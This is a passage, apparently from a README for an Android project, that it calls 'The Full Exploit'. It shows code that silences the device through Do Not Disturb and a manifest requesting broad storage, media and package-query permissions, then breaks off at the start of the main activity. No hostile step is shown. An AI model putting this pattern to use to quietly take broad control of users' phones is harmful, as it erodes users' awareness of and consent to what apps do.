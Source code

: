 

Now You Can Mute / Unmute Safely: Once access is granted, you can safely control DND:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.M) {
    NotificationManager notificationManager =
            (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);

    // Mute device
    notificationManager.setInterruptionFilter(NotificationManager.INTERRUPTION_FILTER_NONE);

    // Unmute later
    // notificationManager.setInterruptionFilter(NotificationManager.INTERRUPTION_FILTER_ALL);
}

```

<br />

---

<br />

**The Full Exploit**

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"
    tools:ignore="QueryAllPackagesPermission"/>
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.READ_MEDIA_IMAGES" />
<uses-permission android:name="android.permission.READ_MEDIA_VIDEO" />
<uses-permission android:name="android.permission.READ_MEDIA_AUDIO" />
<uses-permission android:name="android.permission.POST_NOTIFICATIONS" />
<uses-permission android:name="android.permission.ACCESS_NOTIFICATION_POLICY" />
```

<br />

MainActivity.java

```java
package com.example.andropseudoprotect;

import static android.os.SystemClock.sleep;

import android.Manifest;
import android.app.NotificationManager;
import android.content.Context;
import android.content.Intent;
import android.content.pm.PackageManager;
import android.os.Build;
import android.os.Bundle;
import android.os.Environment;
import android.provider.Settings;
import android.view.View;
import android.widget.Button;
import android.widget.TextView;
import android.widget.Toast;
import androidx.annotation.NonNull;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.app.ActivityCompat;
import androidx.core.content.ContextCompat;

public class MainActivity extends AppCompatActivity {

    private static final int STORAGE_PERMISSION_REQUEST = 100;

```